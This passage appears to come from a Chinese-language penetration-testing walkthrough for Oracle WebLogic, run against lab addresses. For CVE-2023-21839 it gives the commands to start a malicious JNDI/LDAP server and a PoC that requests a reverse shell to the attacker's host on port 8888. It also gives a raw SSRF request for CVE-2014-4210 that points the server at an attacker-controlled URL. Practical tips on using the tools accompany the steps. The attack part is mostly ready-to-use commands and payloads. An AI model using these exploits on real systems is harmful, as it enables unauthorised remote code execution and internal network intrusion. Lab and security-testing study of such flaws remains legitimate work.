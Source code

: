 ![](/zj_img/WEBRESOURCE928696537bd1c5c47b04f7159c8c9fd0截图.png)

### 5、Weblogic未授权远程代码执行漏洞 (CVE-2023-21839)

CVE-2023-21839 允许远程用户在未经授权的情况下通过 IIOP/T3 进行 JNDI lookup 操作，当 JDK 版本过低或本地存在小工具（javaSerializedData）时，这可能会导致 RCE 漏洞

无法梭哈发现，需要单独检测，但是工具存在不稳的情况，最好多点几下，同时无法检查无回显的洞

### 第一步，开启LDAP恶意服务：

```
java -jar JNDIExploit-1.4-SNAPSHOT.jar -i 192.168.2.40
```

### 第二步，发送POC：

是4ra1n的go编写单独工具：

```
main.exe -ip 192.168.2.66 -port 7001 -ldap ldap://192.168.2.40:1389/Basic/ReverseShell/192.168.2.40/8888
```

![](/zj_img/WEBRESOURCE0450a60a233edaeaafa641285cde1927截图.png)

### 或者使用sxf工具梭哈：

![](/zj_img/WEBRESOURCE3ef636e673f680294bef8a1b1a55e646截图.png)

## 6、SSRF(CVE-2014-4210）

SSRF POC：

坑点：注意空格

```
GET /uddiexplorer/SearchPublicRegistries.jsp?rdoSearch=name&txtSearchname=sdf&txtSearchkey=&txtSearchfor=&selfor=Business+location&btnSubmit=Search&operator=http://192.168.2.40:8000/a HTTP/1.1
Host: 192.168.2.66:7001
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 0


```




内网探测以及Redis反弹详见SSRF漏洞

## 7、解密应用
